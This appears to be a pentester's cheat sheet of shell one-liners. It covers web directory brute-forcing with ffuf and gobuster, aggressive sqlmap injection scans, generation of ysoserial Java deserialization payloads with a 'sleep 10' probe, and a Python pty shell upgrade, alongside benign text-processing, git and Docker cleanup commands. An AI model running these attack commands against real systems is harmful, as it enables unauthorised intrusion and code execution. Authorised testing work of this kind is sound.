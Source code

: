 # Regex

**Extract urls**

```
cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u

cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | tr '[:upper:]' '[:lower:]' | sort -u
```

# tr

**Upper -> lowercase**
```
cat a | tr '[:upper:]' '[:lower:]'
```


**Lower -> uppercase**
```
cat a | tr '[:lower:]' '[:upper:]'
```


# Directory listing


**Download dictionary**
```
wget https://gist.githubusercontent.com/jhaddix/b80ea67d85c13206125806f0828f4d10/raw/c81a34fe84731430741e0463eb6076129c20c4c0/content_discovery_all.txt
```


**ffuf**
```
ffuf -t 10 -u http://url.com/FUZZ -w /root/dict/content_discovery_all.txt -fc "302"
```


**Gobuster**
```
gobuster dir -r -k -u URL -w ../dict/content_discovery_all.txt --wildcard
```


# SQLMap
```
sqlmap -r url.com --level 5 --risk 3 --batch
```


```
for i in $(ls *txt); do sqlmap -r $i --level 3 --risk 3 --dbms=Oracle --ignore-redirects --batch; done
```

# Git


```
for i in $(git log --oneline | cut -d " "  -f 1); do echo; git reset $i; git checkout -- . ; ls ; done
```


# Ysoserial
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 -

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo

for i in $(cat a | awk '{ print $1 }' ); do java -jar ysoserial-0.0.6-SNAPSHOT-all.jar $i 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo; done | tee dict2.txt
```


# Upgrade shell

```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# Docker

Kill all docker images

```
for i in $(docker ps -a | cut -d " " -f 1 | grep -v CON); do echo $i; docker rm $i; done
```


# Windows cli

## List files recursive

```
dir /s /b /o:gn
```
